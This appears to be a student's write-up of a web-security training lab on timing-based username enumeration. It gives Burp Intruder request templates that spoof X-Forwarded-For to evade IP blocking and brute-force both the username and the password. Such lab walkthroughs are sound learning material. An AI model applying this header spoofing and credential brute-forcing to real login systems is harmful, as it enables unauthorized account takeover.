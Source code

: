 #+title: Username enumeration via response timing
#+author: [[https://github.com/touhidulshawan][Touhidul Shawan]]

* Table of Contents :toc:
- [[#lab-contains][Lab contains]]
- [[#end-goal][End goal]]
- [[#enumeration-of-username][Enumeration of username]]
- [[#enumeration-of-password][Enumeration of password]]
- [[#solve-the-lab][Solve the lab]]

* Lab contains
+ Vulnerable to username enumeration using it's response time
+ Test credential
  + username = ~wiener~
  + password = ~peter~
* End goal
+ Enumerate for valid username
+ Enumerate for valid password
+ Login with those credential and access their account

* DONE Enumeration of username
CLOSED: [2023-07-31 Mon 20:22]
+ Login with invalid credential and send that request to burp repeater
+ Send multiple request with multiple value from repeater and observe
+ See that ip is being block due to many invalid attempts
+ [[./assets/screenshots/lab5-ip-blocked.png]]
+ Have to spoof the ip with ~X-Forwarded-For~
+ Now send this request to intruder and select attack type to ~Pitchfork~  to add payload on ~X-Forwarded-For~ value and username.
+ Add payload for ~X-Forwarded-For~ numbers value and for ~username~ add payload from given username wordlist
  #+begin_src shell
    POST /login HTTP/2
    Host: 0ad400d904ca330284f5bebe0048003e.web-security-academy.net
    Cookie: session=79bCYHKeRsXH03mh5nKOAkC86RBdWuz1
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 27
    Origin: https://0ad400d904ca330284f5bebe0048003e.web-security-academy.net
    Dnt: 1
    Referer: https://0ad400d904ca330284f5bebe0048003e.web-security-academy.net/login
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Sec-Gpc: 1
    Te: trailers
    X-Forwarded-For: 4.5.3.§2§

    username=§test§&password=23xQMvNgryDZK9vQPhqy2FswjHY4F7fQFbtUqRBh9D9PCvNKAUYefY5Q9YENKN3bAAtYTjPnQT6bg9bA8eFMTPAhetywSHPx2wXC
#+end_src

+ After finish the attack select ~Response received~ and ~Response completed~ from ~Column~ tab to measure response time of each payload
+ Notice that one of the response times was significantly longer than the others. Repeat this request a few times to make sure it consistently takes longer, then make a note of this username
+ After running few times one perticular payload is taking longer time than other and that is ~albuquerque~
+ [[./assets/screenshots/lab5-user-enum.png]]
* DONE Enumeration of password 
CLOSED: [2023-07-31 Mon 20:29]
+ Now send a request with username ~albuquerque~ and send it to intruder to brute-force the password
  #+begin_src shell
    POST /login HTTP/2
    Host: 0ad400d904ca330284f5bebe0048003e.web-security-academy.net
    Cookie: session=79bCYHKeRsXH03mh5nKOAkC86RBdWuz1
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 34
    Origin: https://0ad400d904ca330284f5bebe0048003e.web-security-academy.net
    Dnt: 1
    Referer: https://0ad400d904ca330284f5bebe0048003e.web-security-academy.net/login
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Sec-Gpc: 1
    Te: trailers
    X-Forwarded-For: 5.7.2.§2§

    username=albuquerque&password=§test§
#+end_src
+ After finishing attack look for status code ~302~
+ Here is one payload that gives ~302~ it is our password for username ~albuquerque~
+ [[./assets/screenshots/lab5-enum-password.png]]


* Solve the lab
We enumrate both username and password
- username : ~albuquerque~
- password : ~master~
